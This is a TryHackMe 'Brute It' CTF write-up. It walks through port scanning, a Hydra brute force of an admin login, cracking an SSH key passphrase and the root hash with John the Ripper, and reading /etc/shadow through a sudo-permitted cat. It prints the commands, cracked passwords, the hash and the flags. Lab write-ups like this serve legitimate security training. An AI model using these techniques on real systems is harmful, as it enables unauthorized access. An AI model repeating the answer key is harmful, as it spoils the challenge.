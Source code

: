 # [Brute It CTF] - Writeup

**Platform:** TryHackMe
**Difficulty:** Easy
**Date Completed:** [22.09.2025]  
**Skills Used:** [Password cracking, Privilege escalation]  
**Tools Used:** [John the ripper, Hydra, Gobuster]

## Executive Summary

This writeup demonstrates the complete compromise of the "Brute It" TryHackMe machine through password brute forcing and privilege escalation techniques. Initial reconnaissance revealed a hidden admin login panel that was compromised using Hydra, providing access to an encrypted SSH private key. After cracking the key's passphrase with John the Ripper, SSH access was gained as user "john". Final privilege escalation to root was achieved by exploiting misconfigured sudo permissions to read /etc/shadow and crack the root password hash.

## Initial Reconnaissance

### Port Scanning

We start by running nmap with TCP SYN (-sS) and with information about the services running on the ports (-sV).

```bash
sudo nmap -sS -sV 10.10.213.164
[sudo] Mot de passe de armould :
Starting Nmap 7.80 ( https://nmap.org ) at 2025-09-17 22:34 CEST
Nmap scan report for 10.10.213.164
Host is up (0.082s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.59 seconds
```

This already gave us a lot of information :
How many ports are open ? 2

What version of SSH is running ? OpenSSH 7.6p1

What version of Apache is running ? 2.4.29

Which Linux distribution is running ? Ubuntu

The web server's main page is simply Apache's default page. We are going to try and find hidden directories using gobuster.

```bash
gobuster -w ~/directory-list-2.3-small.txt -u 10.10.213.164

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.213.164/
[+] Threads      : 10
[+] Wordlist     : /home/armould/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2025/09/17 22:50:48 Starting gobuster
=====================================================
/admin (Status: 301)
Progress: 2299 / 87666 (2.62%)
```

I did not run it until the end because the next question suggests that I should only be looking for one hidden directory.

What is the hidden directory ? /admin

## Vulnerability Analysis

So let's visit this directory ! It is a basic login page with only username and password text fields, as well as a submit button. By inspecting the page, we can easily notice a little comment saying that the username is "admin". I will now try to perform a dictionnary attack on the page using hydra. When entering wrong credentials, the page shows "Username or password invalid". We use this to determine whether the password is correct or not.

```bash
hydra -l admin -P ~/rockyou.txt 10.10.93.17 -V http-form-post '/admin/:user=^USER^&pass=^PASS^:F=invalid'

[80][http-post-form] host: 10.10.93.17   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-20 00:47:11
```

We have a result !

What is the user:password of the admin panel ? admin:xavier

If we use these credentials on the admin panel, we can find the web flag : THM{brut3_f0rce_is_e4sy}, and an RSA private key that belongs to John.
I think that the private key is an SSH private key (as we saw that ssh is enabled on the machine).

We are going to use John the ripper to crack it, but first we need to convert the key to a format that it understands. The conversion was a bit of a struggle because of John the ripper's many different versions but I found the right python script :

```bash
python3 ~/john/run/ssh2john.py rsa > rsa.hash
```

And now for the cracking :

```bash
~/john/run/john --wordlist=/home/armould/rockyou.txt rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [MD5/bcrypt-pbkdf/[3]DES/AES 32/64])
Cost 1 (KDF/cipher [0:MD5/AES 1:MD5/[3]DES 2:bcrypt-pbkdf/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 20 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
rockinroll       (rsa)
1g 0:00:00:00 DONE (2025-09-21 12:46) 6.250g/s 454000p/s 454000c/s 454000C/s soulkeeper..rashon
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

What is John's RSA Private Key passphrase ? rockinroll

Here, I first tried to log in directly to the ssh service with this passphrase, without success. Indeed, this is the passphrase to the key that John uses to login, not his direct password. Therefore we need to log in to ssh using this key and passphrase :

```bash
chmod 600 rsa

ssh -i rsa john@10.10.65.55
Enter passphrase for key 'rsa':
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Sep 21 15:20:03 UTC 2025

  System load:  0.08               Processes:           104
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 40%                IP address for ens5: 10.10.65.55
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106

```

We are in ! And the user flag is : THM{a_password_is_not_a_barrier}

## Privilege Escalation

By using sudo -l, we can see that john is authorised to execute /sys/cat with admin privileges. This makes us able to read /etc/shadow (which should only be accessible to root) and get the hash of the root password : root:$6$zdk0.jUm$ Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.

Passwords in /etc/shadow have this structure :$hash_algo$salt$hash. In our case, $6$ means that our hash was made with SHA-512. I copied the hash in a text file named roothash.

```bash
~/john/run/john --wordlist=/home/armould/rockyou.txt roothash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 20 OpenMP threads
Note: Passwords longer than 26 [worst case UTF-8] to 79 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
football         (root)
1g 0:00:00:00 DONE (2025-09-22 20:24) 3.571g/s 9142p/s 9142c/s 9142C/s 123456..hassan
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

What is the root's password? football

Now that we have the root password, we can simply change user :

```bash
su root
Password:
root@bruteit:/home/john# whoami
root
```

Root flag : THM{pr1v1l3g3_3sc4l4t10n}
